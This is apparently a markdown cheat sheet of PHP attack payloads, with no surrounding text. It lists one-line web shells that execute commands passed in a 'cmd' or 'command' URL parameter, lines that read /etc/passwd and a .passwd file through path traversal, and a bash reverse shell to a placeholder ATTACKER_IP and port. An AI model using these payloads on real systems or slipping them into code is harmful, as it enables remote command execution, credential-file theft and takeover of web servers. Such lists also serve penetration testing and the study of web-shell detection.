 ## PHP_Payloads

    <?php exec($_GET['cmd']); ?>
    <?php system($_GET['cmd']); ?>
    <?php echo exec($_GET['cmd']); ?>
    <?php shell_exec($_GET['cmd']); ?>
    <?php system($_GET['command']); ?>
    <?php echo system($_GET['cmd']); ?>
    <?php shell_exec($_GET['command']); ?>
    <?php echo system($_GET['command']); ?>
    <?php echo shell_exec($_GET['cmd']); ?>
    <?php echo shell_exec($_GET['command']); ?>
    <?php echo readfile('../../etc/passwd'); ?>
    <?php echo file_get_contents('../../etc/passwd'); ?>
    <?php $output = shell_exec('cat ../../../.passwd'); echo "$output";  ?>
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"); ?>
